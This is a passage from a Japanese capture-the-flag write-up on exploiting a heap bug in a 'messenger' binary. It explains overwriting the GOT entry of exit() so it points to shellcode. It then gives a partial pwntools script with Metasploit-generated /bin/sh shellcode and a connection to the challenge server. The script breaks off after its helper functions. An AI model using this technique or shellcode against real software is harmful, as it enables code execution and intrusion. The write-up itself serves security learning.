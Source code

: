 ![heap3](https://tosainu.bitbucket.io/svgs/heap3.svg)

そのまま2つ目のメッセージの削除を行うと, `exit()` の GOT のアドレスから8を引いたもの以降を1つの chunk として見た時に `fd` に相当する `exit()` の GOT を3つ目の chunk のアドレスに書き換えることができる. (図の chunk1, chunk2 の `fd`, `bk` が指す要素は, 一応 gdb でも確認しているが正直自信がない. ここでは特に重要でないので気にしないで...)

![heap4](https://tosainu.bitbucket.io/svgs/heap4.svg)

あとは3つ目の chunk が作られる予定のアドレス辺りに shellcode が配置されるように1つ目のメッセージを再び変更する. すると `exit@plt()` が呼び出されたときに shellcode が実行されるようになる.

実際に作成したスクリプトと実行結果は次の通り.

```python
#!/usr/bin/env python2

from pwn import *

# $ objdump -M intel -j .plt -d messenger
# ...
# 0000000000400780 <exit@plt>:
#   400780:	ff 25 ea 18 20 00    	jmp    QWORD PTR [rip+0x2018ea]        # 602070 <exit@plt+0x2018f0>
#   400786:	68 0b 00 00 00       	push   0xb
#   40078b:	e9 30 ff ff ff       	jmp    4006c0 <puts@plt-0x10>
# ...
addr_exit_got = 0x602070

# msf > use payload/linux/x64/exec
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x80\x51\x84\x63\x84\x7a\x7b'
shellcode += '\x73\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\xea\x6a\xdc\xfa\xcc\xc1\x54\x11\xe9\x3f\xab\x10\xec'
shellcode += '\x7a\x28\x3b\x09\xb6\xec\x4e\xe7\x7a\x7b\x3b\x09\xb7'
shellcode += '\xd6\x8b\x8c\x7a\x7b\x73\xaf\x33\xed\x0d\xab\x09\x13'
shellcode += '\x73\xd6\x06\xcc\xea\x62\x75\x7e\x73'

# r = process('./messenger-patched')
r = remote('110.10.212.137',  3333)

#  _ __ ___   ___  ___ ___  ___ _ __   __ _  ___ _ __
# | '_ ` _ \ / _ \/ __/ __|/ _ \ '_ \ / _` |/ _ \ '__|
# | | | | | |  __/\__ \__ \  __/ | | | (_| |  __/ |
# |_| |_| |_|\___||___/___/\___|_| |_|\__, |\___|_|
#                                     |___/
# [L]eave message
# [R]emove message
# [C]hange message
# [V]iew message
# [Q]uit
# >>

def choose_action(c):
    r.recvuntil('[Q]uit\n>> ')
    r.sendline(c)

def leave_message(n, s):
    choose_action('L')
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

```

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.